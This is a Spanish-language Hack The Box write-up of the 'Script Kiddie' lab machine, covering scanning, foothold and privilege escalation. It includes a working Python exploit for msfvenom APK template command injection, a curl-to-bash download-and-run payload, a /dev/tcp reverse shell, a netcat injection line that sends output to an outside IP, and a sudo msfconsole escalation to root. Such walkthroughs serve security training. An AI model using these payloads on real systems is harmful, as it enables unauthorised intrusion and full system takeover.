 ```yaml
---
title: "Script Kiddie - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ScriptKiddie/data/Scriptkiddie.png"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/Hackthebox2.png?raw=true"
categories:
  - Writeup
  - HackTheBox
tags:
  - Bash
  - Sudo
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/ScriptKiddie/data/scriptkiddie.png">
</p>

La máquina **Script Kiddie** es una máquina virtual vulnerable de la plataforma **HackTheBox** con un nivel de dificultad **facil** una calificación en el rank de 4.1, **5039 USER OWNS** y **4475 SYSTEM OWNS** con la ip **10.10.10.226** y un sistema operativo **Linux**.


# Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.226]** utilizando los parámetros:
 - **-p-:**    Escaneo a toda la gama de puertos (65536).
 - **-n:**     No hacen la resolución del DNS.
 - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
 - **-v:**     Aumenta el nivel de los mensajes verbose.
 - **--open:** Muestra sólo los puertos con un estatus abierto.
 - **-oG:**    Guarda la el output en formato Grepeable.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/scan/scanPort.png?raw=true">
</p>

Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22,5000**:

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/scan/Ports.png?raw=true">
</p>

Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

 - -sC: Script de enumeración básica de sondeo en puertos y servicios alojados.
 - -sV: Detección de versiones en servicios alojados en puertos.
 - -p : Puertos a inspeccionar.
 - -oN: Formatos de Nmap en los que se guardará el archivo.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/scan/PortServ.png?raw=true">
</p>

Gracias a lo que nos mostró el escaneo de servicios y versiones se puede ver que en el puerto **5000** se aloja un servicio **http** y en el puerto **22** un servicio **ssh**, sabiendo esto y yendo a un navegador e ingresando al servicio **http** por el puerto **5000** se puede ver la siguiente web.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/scan/web.png?raw=true">
</p>

Es una web que cuenta con diferentes herramientas implementada en la web de pentesting como **nmap**, **msfvenom** y **searchsploit**.
Algo que se alcanza a ver es que en la herramienta implementada de **msfvenom** se pueden subir **template**, investigando se puede llegar a un articulo el cual explica una vulnerabilidad existente en una version [desactualizada del framework de metasploit](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/).

En ella se habla de como crear un **apk** malicioso con el cual a la hora de implementarlo como **template** en la creación de un archivo apk el **apk tmplate** injecta comandos en la maquina.

En el articulo habla de como hacerlo con la herramienta de **metasploit** pero no es necesario ya que podemos hacer uso del siguiente código en python que saque de el [github de justinsteven ](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md).
```python
#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b32encode

# Change me
payload = '[Insert Payload]'

# b32encode to avoid badchars (keytool is picky)
# thanks to @fdellwing for noticing that base64 can sometimes break keytool
# <https://github.com/justinsteven/advisories/issues/2>
payload_b32 = b32encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b32} | base32 -d | sh #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = tempfile.mkdtemp()
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"

# Touch empty_file
open(empty_file, "w").close()

# Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

# Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

# Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
```
En este código solo tenemos que cambiar el **payload** para el **apk maliciosos** que generaremos, en este caso yo me enviare 5 paquetes icmp y para verificar si tengo ejecución de comando examinare los paquetes con **tcpdum**.


Así que voy a la web y cargo el apk malicioso que generé con el script en python.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/exp1.png?raw=true">
</p>

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/exp2.png?raw=true">
</p>

Excelente si tenemos ejecución de comandos en la maquina victima así que modificare el payload para entablar me una shell a mi maquina.

Como yo tuve fallas para entablar me la shell lo que hice fue crear un archivó con codigo en bash en mi maquina y levantar un servicio **http** con python y en el payload del script ingresar: **```payload = 'curl http://[Your IP]/bash.sh | bash'```**.


Esto es así ya que cuando la maquina victima haga el curl y vea el contenido del archivo al pipearlo con bash interpretara el código que en este caso es una conexión por bash a mi maquiná y así otorgándome la shell.

```bash
#!/bin/bash

bash -i >& /dev/tcp/[Your Ip]/[PORT] 0>&1
```


<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/shell.png?raw=true">
</p>


# Privilege escalation


Ahora que ya tenemos el acceso a la maquina se puede ver que accedemos como el usuario **kid** y enumerando el sistema se ve que existen 3 usuario:
* root
* kid
* pwd

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/passwd.png?raw=true">
</p>

En el dirección personal de **kid** hay una carpeta **logs/** con un archivo llamado **hackers** el cual no tiene contenido.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/kid.png?raw=true">
</p>

Si enumeramos mas el sistem podemos acceder al directorio personalde **pwd** en el cual hay un archivo .sh que tiene el siguiente contenido

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Lo que hace este código es verificar si el archivo **"hackers"** tiene contenido y si lo tiene lo filtra a partir del tercer argumento del contendió que tenga y luego este contenido que se supone que debe ser una ip lo manda como argumento a comando de namp para hacer el escaneo.


Algo que podemos hacer es imprimir contenido en el archivo **hackers** y poner en blanco 3 espacios para evitar asi el filtro y concatenado un **';'** esto es así ya que estamos indicando que después de hacer el cat ejecuta la siguiente orden que le pasaremos la cual sera un comando a nuestro beneficio junto a un **'#'** para que no entre en conflicto ningún argumento del script y todo este output ingresarlo en **hackers**.

En este caso para verificar que funcionara probe haciendo un **"whoami"** y enviar el output por **'netcat'** a mi maquina

```bash
echo '    ; whoami | nc 10.10.15.125 444 #' > hackers
```

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/whoami.png?raw=true">
</p>

Excelente ya que se comprueba que podemos injectar comando como **pwd** entonces me entablare una conexión a mi maquina y por ende me dará la shell como el usuario  **pwd**

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/shell2.png?raw=true">
</p>

Muy bien ahora que somos **pwd** buscaremos la forma de escalar privilegios a **root**, enumerando el sistema podemos ver que el usuario **pwd** tiene permisos sudo para ejecutar sin contraseña el framework **/opt/metasploit-framework-6.0.9/msfconsole**.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/sudo.png?raw=true">
</p>

Sabiendo esto una vez que estamos dentro de mestasploit podemos ejecutar comandos como si estuviéramos en una shell y si lo hacemos bajo el privilegios sudo estaríamos ejecutando comando como root e incluso otorgarnos una shell como el mismo.

```bash
sudo -u root /opt/metasploit-framework-6.0.9/msfconsole
```

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/ScriptKiddie/intrusion/root.png?raw=true">
</p>

Con esto se podría concluir la maquina **ScriptKiddie** así sacando el máximo privilegios que es **root**.

Muchas Gracias por leer <3.
